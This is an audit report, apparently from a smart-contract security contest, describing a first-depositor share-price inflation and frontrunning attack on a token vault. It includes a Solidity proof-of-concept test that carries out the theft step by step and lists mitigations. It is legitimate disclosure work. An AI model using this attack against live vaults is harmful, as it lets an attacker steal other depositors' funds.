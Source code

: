 JohnSmith

high

# First user can steal everyone else's tokens via share price manipulation and frontrunning

## Summary
A user who joins the systems first (deposits first) or temporary just only one left can manipulate share price and steal everybody's tokens by sending tokens to the system externally.
This attack is possible because protocol allows depositing a small amount of tokens and minting zero shares.
In general, since there is only a single share, for any user who is going to stake X tokens, if the system has X+1 tokens in its balance, the user won't get any shares and all the money will go to the attacker.
## Vulnerability Detail
- Alice deposits 1 wei, and receives 1000 shares (if you initialize the vault with `STARTING_SHARES_PER_LINK = 1000` as in your test and deploy scripts)
- She makes price 1:1 via depositing 999 tokens with ERC20.transfer() 
- Next withdraws tokens worth 999 shares, so protocol left with 1 share and 1 token
- Bob wants to deposit 100 ether tokens
- Alice frontruns his deposit and transfers externally 100 ether tokens to vault, so now 1 share costs 100 ether + 1 wei tokens
- When Bob's 100 ether converted to shares `convertToShares(uint256 _tokens)` returns `0`;
- Now Alice has 1 share worth 200 ether + 1 wei, she can now withdraw
## Impact
Stolen funds
## Code Snippet
One test is worth thousand words so here is the test, which you can place into your `contract Vault_depositTest` inside `deposit.t.sol` file.
```solidity
 function testSharePriceManipulationAndFrontrun() public {
        uint256 bobAmount = 100 ether;
        link.mint(alice, 100 ether + 1 wei);
        link.mint(bob, bobAmount);

        // Alice deposits 1 wei
        vm.startPrank(alice);
        link.approve(address(vault), type(uint256).max);
        vault.deposit(1 wei);
        vm.stopPrank();
        assertEq(vault.shares(alice), 1000); // Alice has 1000 shares 
        assertEq(vault.balanceOf(alice), 1); // which worth 1 token

        // Alice would want to reduce share price to 1:1 instead of 1000:1
        vm.prank(alice);
        link.transfer(address(vault), 999);

        assertEq(vault.shares(alice), 1000); // Alice has 1000 shares
        assertEq(vault.balanceOf(alice), 1000); // which worth 1000 tokens

        // Alice reduces amount of shares the vault has so it stores 1 share and 1 token
        vm.prank(alice);
        vault.withdraw(999);

        assertEq(vault.shares(alice), 1); // Alice has 1 share 
        assertEq(vault.balanceOf(alice), 1); // which worth 1 token

        // Bob deposits 100 ETH, Alice is monitoring mempool and sends her transaction with higher fee,
        // so her transaction executes before Bob's transaction
        // Alice's transaction:
        vm.prank(alice);
        link.transfer(address(vault), 100 ether);

        assertEq(vault.shares(alice), 1); // Alice has 1 share 
        assertEq(vault.balanceOf(alice), 100 ether + 1 wei); // which worth  100 ether + 1 wei in tokens
 
        // Bob's transaction:
        vm.startPrank(bob);
        link.approve(address(vault), type(uint256).max);
        vault.deposit(bobAmount);
        vm.stopPrank();

        assertEq(vault.shares(bob), 0); // Bob got 0 shares 
        assertEq(vault.balanceOf(bob), 0); // Bob's balance is 0 tokens

        // Alice withdraws all but 1 wei, so she takes 200 ether not even burning her share(but that is another issue)
        vm.prank(alice);
	 			vault.withdraw(200 ether);

        assertEq(link.balanceOf(alice), 200 ether); // Alice got + 100 ether tokens

        // Alice can now repeat the attack and wait for next victim
    }
```
## Tool used

Manual Review

## Recommendation
-  [Uniswap V2 solved this problem by sending the first 1000 LP tokens to the zero address](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124). The same can be done in this case i.e. when `totalSupply() == 0`, send the first min liquidity LP tokens to the zero address to enable share dilution.
-   Ensure the number of shares to be minted is non-zero: `require(_shares != 0, "zero shares minted");`
-   Create a periphery contract that contains a wrapper function that atomically calls `initialize()` and `deposit()`
-   Call `deposit()` once in `initialize()` to achieve the same effect as the suggestion above.
-   [BalancerV2 solution](https://github.com/balancer-labs/balancer-v2-monorepo/blob/master/pkg/pool-utils/contracts/BasePool.sol#L302-L316) 
